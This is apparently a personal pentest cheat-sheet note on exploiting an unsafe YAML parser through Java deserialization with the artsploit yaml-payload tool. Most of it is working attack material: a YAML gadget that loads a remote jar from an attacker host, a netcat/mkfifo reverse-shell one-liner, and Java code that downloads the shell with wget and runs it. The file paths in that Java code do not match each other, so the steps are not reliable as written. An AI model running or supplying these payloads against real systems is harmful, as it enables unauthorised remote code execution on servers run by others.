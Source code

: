 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

#### Online YAML parser
See https://github.com/artsploit/yaml-payload

![[Pasted image 20220922153442.png]]

```bash - kali
git clone https://github.com/artsploit/yaml-payload
```

![[TechLexicon/Penetration Testing/Reference/7._Tools/Python#Server]]

```java
!!javax.script.ScriptEngineManager [
  !!java.net.URLClassLoader [[
    !!java.net.URL ["http://$KALI/"]
  ]]
]
```

Should see a call back in you python server.
![[Pasted image 20220922153421.png]]

```bash - kali
echo '#!/bin/bash \nrm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc $KALI 443 >/tmp/f' > Shelly.sh
```

Modify lines 8 - 17 of `/src/artsploit/AwesomeScriptEngineFactory.java` with the following to upload and execute reverse shell.
```java
public class AwesomeScriptEngineFactory implements ScriptEngineFactory {

    public AwesomeScriptEngineFactory() throws Exception {
        try {
            Process p = Runtime.getRuntime().exec("wget $KALI/Shelly.sh -O /tmp/shell");
			p.waitFor();
			p = Runtime.getRuntime().exec("chmod +x /tmp/Shelly.sh");
			p.waitFor();
			p = Runtime.getRuntime().exec("/tmp/Shelly.sh");
			p.waitFor();
        } catch (IOException e) {
            e.printStackTrace();
        }
    }
```

```bash - kali
javac src/artsploit/AwesomeScriptEngineFactory.java
```

```bash - kali
jar -cvf yaml-payload.jar -C src/ .
```

[[rlwrap]]

```bash - kali
!!javax.script.ScriptEngineManager [
  !!java.net.URLClassLoader [[
    !!java.net.URL ["http://$KALI/yaml-payload.jar"]
  ]]
]
```


Last updated: `$= dv.current().file.mtime.toFormat("MMMM dd, yyyy 'at' HH:mm")`
